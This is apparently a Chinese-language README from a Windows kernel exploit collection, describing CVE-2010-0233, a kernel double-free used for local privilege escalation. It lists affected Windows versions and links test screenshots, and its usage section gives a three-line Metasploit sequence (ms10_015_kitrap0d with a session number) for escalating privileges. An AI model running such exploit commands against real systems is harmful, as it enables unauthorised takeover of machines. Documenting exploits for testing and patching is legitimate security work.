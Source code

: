 ### CVE-2010-0233

#### 描述

内核中的双重免费漏洞允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  |         | SP2    |                    |
| Windows Server 2008 | X64/X86          |         |        |                    |
| Windows Vista       |                  |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         |        |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### 利用方式

编译环境

- nmake 2013

测试系统Windows Server 2003 SP2 x86

![25](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86.gif?raw=true)

> msf利用

测试系统Windows Server 2003 SP2 x86，执行以下代码

```
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 3
run
```

可以看到当前权限是最低的

![image-20200823123824229](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86_msf.png?raw=true)

然后执行命令提权

![image-20200823123945054](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86_msf2.png?raw=true)